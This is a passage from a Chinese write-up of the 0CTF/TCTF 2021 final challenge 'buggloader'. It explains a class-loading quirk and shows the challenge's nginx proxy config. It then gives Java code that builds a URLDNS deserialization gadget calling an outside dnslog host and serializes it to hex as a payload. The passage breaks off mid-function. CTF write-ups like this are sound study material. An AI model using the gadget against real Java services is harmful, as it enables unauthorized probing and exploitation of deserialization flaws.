 ## TCTFfinal

### buggloader

本题的核心点。

>resovleClass使用的是ClassLoader.loadClass()而非Class.forName()，而ClassLoader.loadClass不支持装载数组类型的class。

通过nginx代理内网的8080端口到80. 导致不出网。

```
server {
    listen       80;
    server_name  localhost;
    location / {
        root   /usr/share/nginx/html;
        index  index.html index.htm;
		proxy_pass http://web:8080;
    }
    error_page   500 502 503 504  /50x.html;
    location = /50x.html {
        root   /usr/share/nginx/html;
    }
}
```

dnslog

```java
System.out.println(objectToHexString(urldns()));

public static Object urldns() throws Exception {
        HashMap<URL, String> hashMap = new HashMap<URL, String>();
        //URL对象传入自己测试的dnslog
        URL url = new URL("http://2ihodi.dnslog.cn");
        //反射获取 URL的hashcode方法
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        //使用内部方法 设置允许访问
        f.setAccessible(true);
        // put 一个值的时候就不会去查询 DNS，避免和刚刚混淆
        f.set(url, 123);
        hashMap.put(url, "Firebasky");
        // hashCode 这个属性放进去后设回 -1, 这样在反序列化时就会重新计算 hashCode
        f.set(url, -1);
        return hashMap;
    }

public static String objectToHexString(Object obj) throws Exception {
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream out = null;
        out = new ObjectOutputStream(bos);
        out.writeUTF("0CTF/TCTF");
        out.writeInt(2021);
        out.writeObject(obj);
        out.flush();
        byte[] bytes = bos.toByteArray();
        bos.close();
        String hex = bytesTohexString(bytes);
        return hex;
    }
    public static String bytesTohexString(byte[] bytes) {
        if (bytes == null) {
            return null;
        } else {
            StringBuilder ret = new StringBuilder(2 * bytes.length);
```